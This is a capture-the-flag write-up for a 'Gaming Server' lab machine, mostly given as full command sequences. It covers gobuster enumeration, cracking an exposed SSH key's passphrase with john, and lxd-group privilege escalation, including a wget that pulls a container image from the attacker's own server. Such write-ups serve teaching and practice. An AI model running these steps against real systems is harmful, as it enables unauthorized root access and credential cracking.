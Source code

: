 # GAMING SERVER

## FLAG 1
Flag 1 is quite simple. Using gobuster to enumerate the webpage, a `/secret` directory was found. Download the file `secretKey` and `chmod 600 secretKey` as it was a ssh private key. The private key was password protected, therefore we need to crack it with john. The `dict/lst` file we found on `/upload` can be used as a dictionary.

After we crack the password, connect to the machine with username john. It was mentioned in a comment on the home page. And we get the `user.txt`

Complete command as follow
```bash
gobuster dir -u <IP ADDR> -w <WORDLIST>
wget http://<IP ADDR>/secret/secretKey
chmod 600 secretKey
/usr/share/john/ssh2john.py seretKey > hash.txt
john hash.txt --wordlist=dict.lst
ssh john@<IP ADDR> -i secretKey
# Enter the passphrase here
cd && cat user.txt
# a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```

## FLAG 2
Flag 2 was quite tricky. The vulnerability here is that we are added into the lxd group. This can be seen by running `id`.
```bash
id
# uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

I refered to [this article](https://www.hackingarticles.in/lxd-privilege-escalation/) for the steps.
First we need to clone the github repo into our own machine, then build it. Next, upload the tar file onto the victim machine and using lxc to import the image and make all the config. Then we can access the flag.

Complete command as follow
```bash
# On our machine
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine

# After it is done we should see a alpine-v3.12-x86_64-20200901_2136.tar.gz file
# Now setup a server which contains the file for the victim to download.

python3 -m http.server

# On the victim machine
cd /tmp
wget http://<YOUR IP ADDR>:8000/alpine-v3.12-x86_64-20200901_2136.tar.gz
lxc image import ./alpine-v3.12-x86_64-20200901_2136.tar.gz --alias myimage
lxc image list # Check if it has successfully imported
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root/ recursive=true
lxc start ignite
lxc exec ignite /bin/sh
# Now we are root. Note that /bin/bash does not work.
cd /mnt/root/root
cat root.txt
# 2e337b8c9f3aff0c2b3e8d4e6a7c88fc

# if you want to stop the image, run
lxc stop ignite
```